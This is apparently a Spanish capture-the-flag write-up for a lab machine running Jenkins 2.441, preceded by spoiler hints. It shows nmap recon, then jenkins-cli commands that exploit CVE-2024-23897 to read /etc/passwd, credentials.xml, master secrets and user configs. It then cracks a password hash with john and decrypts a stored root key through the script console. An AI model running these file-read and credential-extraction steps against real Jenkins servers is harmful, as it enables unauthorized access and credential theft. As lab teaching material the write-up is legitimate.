

## Spoiler
---

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Vulnerabilidades por versión, siempre funciona
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  La verdad, tomó algo de tiempo en búsqueda de información, así que mi consejo es que busques a la antigua, en stackoverflow
</label>

Hint 3:
<input class="spoiler-toggle" type="checkbox" id="step-3">
<label class="spoiler-text" for="step-3">
  Siempre obten todas las credenciales que tienes, la llave esa del principio se puede obtener, solo es cuestión de búsqueda, no te rindas :)
</label>

## Writeupp
---

### Reconocimiento

Primero se realizará el escaneo de puertos y servicios de la máquina utilizando la herramienta `nmap`

```sh
sudo nmap -sS -Pn -n --min-rate 5000 10.129.230.220 -p- -sV -vvv -oN port-scan
```

```ruby
Nmap scan report for 10.129.230.220
Host is up, received user-set (0.10s latency).
Scanned at 2026-09-26 18:58:16 EDT for 23s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    syn-ack ttl 62 Jetty 10.0.18
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Del escaneo tenemos 2 puertos, uno de ellos es una web ejecutándose en el puerto 8080 y otro es un SSH, empezaremos por la web a ver si encontramos una forma de ingresar al sistema, de manera adelantada `nmap` encontró que la web se ejecuta en un servicor web Jetty 10.0.18

La web nos muestra que se está ejecutando un jenkins tal como se muestra en la siguiente imagen:



En la parte inferior derecha podemos observar la versión del Jenkins



En la parte izquierda de la web nos permite acceder a la seccción *People* el cual nos arroja los usuarios que se tienen en el jenkins



Tambien se puede ver la sección de *Credentials* este nos muestra que se tiene una credencial guardada



La credencial hace referencia a una llave privada de "root"



Pero no se puede hacer mucho más que darnos una esperanza :)

Vamos a verificar si se tiene un exploit para esta versión de Jenkins 2.441

## Acceso Inicial

Es en las búsquedas de google que nos encontramos con el CVE-2024-23897 el cual dentro de las versiones afectadas tenemos que calza con la versión que ejecuta la máquina objetivo



Esta vulnerabilidad dice lo siguiente:

> [!quote]
> Jenkins 2.441 and earlier, LTS 2.426.2 and earlier does not disable a feature of its CLI command parser that replaces an '@' character followed by a file path in an argument with the file's contents, allowing unauthenticated attackers to read arbitrary files on the Jenkins controller file system.

Básicamente esta vulnerabilidad nos permite leer archivos del sistema gracias a que el apartado CLI que dipone el Jenkins intenta procesar como archivo todo parámetro que comience por *@* y a partir de una función llamada *expandAtFiles* permite obtener el contenido de dicho archivo, lo podemos ver en el apartado de explotación.

Como siempre, esto está automatizado dentro de muchos repos de github, sin embargo, vale la pena el intento de ejecución manual para aprender un poco más de donde viene la vulnerabilidad.

El siguiente repositorio nos ofrece una vista más técnica para esta vulnerabilidad https://github.com/murataydemir/CVE-2024-23897

Bien, la vulnerabilidad permite leer archivos a travéz de un CLI, pero de dónde se obtiene esto ? Ese "CLI" se obtiene por medio de la ruta http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar, la misma página de jenkins nos ofrece esa posibilidad en su documentación.



> [!nota]
> Este CLI de Jenkins permite administrar la web a travéz de comandos de sistema o a través de una terminal, suele ser más beneficioso por el uso de recursos y otras cosas más.

Al digitar esa url se nos descargará un archivo llamado *jenkins-cli.jar*, es este archivo el que usaremos para interactuar con la web

```sh
❯ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ who-am-i
Authenticated as: anonymous
Authorities:
  anonymous
```

Claramente necesitaríamos credenciales para realizar cambios administrativos, pero no tenemos ninguno :c, sin embargo, para explotar la vulnerabilidad no va a ser necesario una credencial válida

Para verificar esta vulnerabilidad intentaremos digitar un comando con `jenkins-cli` y trataremos de enviar como parámetro una ruta de un archivo para que este lo procese

```sh
java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/etc/passwd"
```



El archivo se lee y se toma como error tal como se ve en el resultado, esto nos permite colocar cualquier archivo y poder obtener su contenido, tal como se ve en el siguiente ejemplo

```sh
java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/proc/self/environ"
```



Es a partir de estos "errores" que podemos ver los archivos, entonces vamos a verificar algunos archivos importantes del sistema

Intentaremos ver los archivos de configuración del jenkins, para ver cómo obtenerlos basta con una búsqeuda en google o stack overflow 


https://stackoverflow.com/questions/6131114/where-does-jenkins-store-configuration-files-for-the-jobs-it-runs

En ella nos dicen que el archivo *config.xml* se encuentra en la carpeta raíz de instalación

Bien..., pero donde está la carpeta de instalación ? eso lo podemos verificar en la carpetaa HOME del usuario jenkins dentro del archivo */etc/passwd*



Entonces intentaremos obtener el contenido del archivo */var/jenkins_home/config.xml*

```sh
java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/var/jenkins_home/config.xml"
```



Vemos que tenemos éxito al momento de obtener esa información

Ahora, recordemos que vimos una sección de *Credentials* dentro de la web de Jenkins, esto tambien mantiene archivos que guardan esas credenciales, el archivo que los guarda tiene el nombre *credentials.xml*, esto se puede saber gracias a la discusión en Stackoverflow https://stackoverflow.com/questions/34795050/how-do-i-list-all-of-my-jenkins-credentials-in-the-script-console

```sh
java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/var/jenkins_home/credentials.xml"
```



En ese archivo podemos ver la llave privada de un usuario, pero este formato no nos favorece para utilizarlo como llave para acceder debido a que está encriptada, para ello usaremos el repositorio https://github.com/dadevel/jenkins-decryptor, en dicho repositorio nos dicen que debemos obbtener 3 archivos:

- $JENKINS_HOME/credentials.xml
- $JENKINS_HOME/secrets/hudson.util.Secret
- $JENKINS_HOME/secrets/master.key

Para obtener estos archivos ejecutaremos lo siguiente:

```sh
java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/var/jenkins_home/credentials.xml" 2>&1 | sed 's/: No such agent .*//' | head -n -2
```



```sh
java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/var/jenkins_home/secrets/hudson.util.Secret"
```



Acá nos topamos con algo, el contenido del archivo *hudson.util.Secret* no es posible replicarlo con un simple **Ctrl + C** por lo que intentaremos por otra vía

Recordemos otra cosa, vimos a un usuario llamado *jennifer* entonces intentaremos obtener el archivo de configuración de los usuarios, este blog nos enseña dónde se podría encontrar dicha ruta https://medium.com/@knoldus/directory-structure-and-installing-plugins-in-jenkins-3dd62488631c



Pero, vemos que las carpetas con del tipo *<usuario>-<random>* así que no basta con solo ver la carpeta del usuario, tambien debemos conocer esa cadena de caracteres aleatorias, para esllo tenemos que en la carpeta */users/* se encuentra un archivo llamado *users.xml*

```sh
java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/var/jenkins_home/users/users.xml" 2>&1 | sed 's/: No such agent .*//' | head -n -2
```



Vemos que encontramos la cadena de caracteres aleatorias que necesitamos para tener el nombre de la carpeta del usuario jennifer el cual es *jennifer_12108429903186576833*, pero cómo sabremos qué archivo buscar ? para ello veremos lo siguiente https://stackoverflow.com/questions/52930545/what-is-the-purpose-of-the-jenkins-user-folder-and-what-are-these-config-files



Al parecer hay un archivo llamado *config.xml* dentro de cada carpeta del usuario

```
java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml" 2>&1 | sed 's/: No such agent .*//' | head -n -2
```



En las últimas líneas vemos que hay un hash el cual procederemos a crakear para obtener la contraseña

```sh
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Obtenemos la contraseña *princess*, utilziaremos el usuario jennifer para ingresar a Jenkins



## Escalamiento de privilegios

Una vez dentro se intentará obtener la "llave privada" del root que no pudimos obtener en un primer intento para ello nos basaremos en el siguiente link https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml el cual menciona que lo podemos hacer desde la ruta */script* en el campo del script digitaremos lo siguiennte:

```plaintext
println(hudson.util.Secret.decrypt("{AQAAABAAAAowLrfCrZx9baWliwrtCiwCyztaYVoYdkPrn5qEEYDqj5frZLuo4qcqH61hjEUdZtkPiX6buY1J4YKYFziwyFA1wH/X5XHjUb8lUYkf/XSuDhR5tIpVWwkk7l1FTYwQQl/i5MOTww3b1QNzIAIv41KLKDgsq4WUAS5RBt4OZ7v410VZgdVDDciihmdDmqdsiGUOFubePU9a4tQoED2uUHAWbPlduIXaAfDs77evLh98/INI8o/A+rlX6ehT0K40cD3NBEF/4Adl6BOQ/NSWquI5xTmmEBi3NqpWWttJl1q9soOzFV0C4mhQiGIYr8TPDbpdRfsgjGNKTzIpjPPmRr+j5ym5noOP/LVw09+AoEYvzrVKlN7MWYOoUSqD+C9iXGxTgxSLWdIeCALzz9GHuN7a1tYIClFHT1WQpa42EqfqcoB12dkP74EQ8JL4RrxgjgEVeD4stcmtUOFqXU/gezb/oh0Rko9tumajwLpQrLxbAycC6xgOuk/leKf1gkDOEmraO7uiy2QBIihQbMKt5Ls+l+FLlqlcY4lPD+3Qwki5UfNHxQckFVWJQA0zfGvkRpyew2K6OSoLjpnSrwUWCx/hMGtvvoHApudWsGz4esi3kfkJ+I/j4MbLCakYjfDRLVtrHXgzWkZG/Ao+7qFdcQbimVgROrncCwy1dwU5wtUEeyTlFRbjxXtIwrYIx94+0thX8n74WI1HO/3rix6a4FcUROyjRE9m//dGnigKtdFdIjqkGkK0PNCFpcgw9KcafUyLe4lXksAjf/MU4v1yqbhX0Fl4Q3u2IWTKl+xv2FUUmXxOEzAQ2KtXvcyQLA9BXmqC0VWKNpqw1GAfQWKPen8g/zYT7TFA9kpYlAzjsf6Lrk4Cflaa9xR7l4pSgvBJYOeuQ8x2Xfh+AitJ6AMO7K8o36iwQVZ8+p/I7IGPDQHHMZvobRBZ92QGPcq0BDqUpPQqmRMZc3wN63vCMxzABeqqg9QO2J6jqlKUgpuzHD27L9REOfYbsi/uM3ELI7NdO90DmrBNp2y0AmOBxOc9e9OrOoc+Tx2K0JlEPIJSCBBOm0kMr5H4EXQsu9CvTSb/Gd3xmrk+rCFJx3UJ6yzjcmAHBNIolWvSxSi7wZrQl4OWuxagsG10YbxHzjqgoKTaOVSv0mtiiltO/NSOrucozJFUCp7p8v73ywR6tTuR6kmyTGjhKqAKoybMWq4geDOM/6nMTJP1Z9mA+778Wgc7EYpwJQlmKnrk0bfO8rEdhrrJoJ7a4No2FDridFt68HNqAATBnoZrlCzELhvCicvLgNur+ZhjEqDnsIW94bL5hRWANdV4YzBtFxCW29LJ6/LtTSw9LE2to3i1sexiLP8y9FxamoWPWRDxgn9lv9ktcoMhmA72icQAFfWNSpieB8Y7TQOYBhcxpS2M3mRJtzUbe4Wx+MjrJLbZSsf/Z1bxETbd4dh4ub7QWNcVxLZWPvTGix+JClnn/oiMeFHOFazmYLjJG6pTUstU6PJXu3t4Yktg8Z6tk8ev9QVoPNq/XmZY2h5MgCoc/T0D6iRR2X249+9lTU5Ppm8BvnNHAQ31Pzx178G3IO+ziC2DfTcT++SAUS/VR9T3TnBeMQFsv9GKlYjvgKTd6Rx+oX+D2sN1WKWHLp85g6DsufByTC3o/OZGSnjUmDpMAs6wg0Z3bYcxzrTcj9pnR3jcywwPCGkjpS03ZmEDtuU0XUthrs7EZzqCxELqf9aQWbpUswN8nVLPzqAGbBMQQJHPmS4FSjHXvgFHNtWjeg0yRgf7cVaD0aQXDzTZeWm3dcLomYJe2xfrKNLkbA/t3le35+bHOSe/p7PrbvOv/jlxBenvQY+2GGoCHs7SWOoaYjGNd7QXUomZxK6l7vmwGoJi+R/D+ujAB1/5JcrH8fI0mP8Z+ZoJrziMF2bhpR1vcOSiDq0+Bpk7yb8AIikCDOW5XlXqnX7C+I6mNOnyGtuanEhiJSFVqQ3R+MrGbMwRzzQmtfQ5G34m67Gvzl1IQMHyQvwFeFtx4GHRlmlQGBXEGLz6H1Vi5jPuM2AVNMCNCak45l/9PltdJrz+Uq/d+LXcnYfKagEN39ekTPpkQrCV+P0S65y4l1VFE1mX45CR4QvxalZA4qjJqTnZP4s/YD1Ix+XfcJDpKpksvCnN5/ubVJzBKLEHSOoKwiyNHEwdkD9j8Dg9y88G8xrc7jr+ZcZtHSJRlK1o+VaeNOSeQut3iZjmpy0Ko1ZiC8gFsVJg8nWLCat10cp+xTy+fJ1VyIMHxUWrZu+duVApFYpl6ji8A4bUxkroMMgyPdQU8rjJwhMGEP7TcWQ4Uw2s6xoQ7nRGOUuLH4QflOqzC6ref7n33gsz18XASxjBg6eUIw9Z9s5lZyDH1SZO4jI25B+GgZjbe7UYoAX13MnVMstYKOxKnaig2Rnbl9NsGgnVuTDlAgSO2pclPnxj1gCBS+bsxewgm6cNR18/ZT4ZT+YT1+uk5Q3O4tBF6z/M67mRdQqQqWRfgA5x0AEJvAEb2dftvR98ho8cRMVw/0S3T60reiB/OoYrt/IhWOcvIoo4M92eo5CduZnajt4onOCTC13kMqTwdqC36cDxuX5aDD0Ee92ODaaLxTfZ1Id4ukCrscaoOZtCMxncK9uv06kWpYZPMUasVQLEdDW+DixC2EnXT56IELG5xj3/1nqnieMhavTt5yipvfNJfbFMqjHjHBlDY/MCkU89l6p/xk6JMH+9SWaFlTkjwshZDA/oO/E9Pump5GkqMIw3V/7O1fRO/dR/Rq3RdCtmdb3bWQKIxdYSBlXgBLnVC7O90Tf12P0+DMQ1UrT7PcGF22dqAe6VfTH8wFqmDqidhEdKiZYIFfOhe9+u3O0XPZldMzaSLjj8ZZy5hGCPaRS613b7MZ8JjqaFGWZUzurecXUiXiUg0M9/1WyECyRq6FcfZtza+q5t94IPnyPTqmUYTmZ9wZgmhoxUjWm2AenjkkRDzIEhzyXRiX4/vD0QTWfYFryunYPSrGzIp3FhIOcxqmlJQ2SgsgTStzFZz47Yj/ZV61DMdr95eCo+bkfdijnBa5SsGRUdjafeU5hqZM1vTxRLU1G7Rr/yxmmA5mAHGeIXHTWRHYSWn9gonoSBFAAXvj0bZjTeNBAmU8eh6RI6pdapVLeQ0tEiwOu4vB/7mgxJrVfFWbN6w8AMrJBdrFzjENnvcq0qmmNugMAIict6hK48438fb+BX+E3y8YUN+LnbLsoxTRVFH/NFpuaw+iZvUPm0hDfdxD9JIL6FFpaodsmlksTPz366bcOcNONXSxuD0fJ5+WVvReTFdi+agF+sF2jkOhGTjc7pGAg2zl10O84PzXW1TkN2yD9YHgo9xYa8E2k6pYSpVxxYlRogfz9exupYVievBPkQnKo1Qoi15+eunzHKrxm3WQssFMcYCdYHlJtWCbgrKChsFys4oUE7iW0YQ0MsAdcg/hWuBX878aR+/3HsHaB1OTIcTxtaaMR8IMMaKSM=}"))
```

